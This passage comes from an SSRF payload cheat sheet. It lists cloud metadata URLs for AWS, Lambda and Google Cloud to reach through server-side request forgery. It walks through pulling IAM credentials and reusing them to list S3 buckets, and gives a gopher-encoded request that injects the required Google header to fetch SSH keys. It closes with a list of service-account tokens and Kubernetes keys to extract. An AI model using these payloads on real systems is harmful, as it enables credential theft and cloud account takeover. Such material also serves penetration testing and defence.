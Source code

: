We then retrieve the `AccessKeyId`, `SecretAccessKey`, and `Token` from the API.

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

Then we use the credentials with `aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`.

**SSRF URL for AWS Lambda**

AWS Lambda provides an HTTP API for custom runtimes to receive invocation events from Lambda and send response data back within the Lambda execution environment.

```
http://localhost:9001/2018-06-01/runtime/invocation/next
$ curl "http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next"
```

Docs: https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next

**SSRF URL for Google Cloud**

⚠️ Google is shutting down support for usage of the **v1 metadata service** on January 15.

Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

```
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

Google allows recursive pulls

```
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

```
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```

Required headers can be set using a gopher SSRF with the following technique

```
gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%2f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
```

Interesting files to pull out:

- SSH Public Key : `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
- Get Access Token : `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
- Kubernetes Key : `http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`
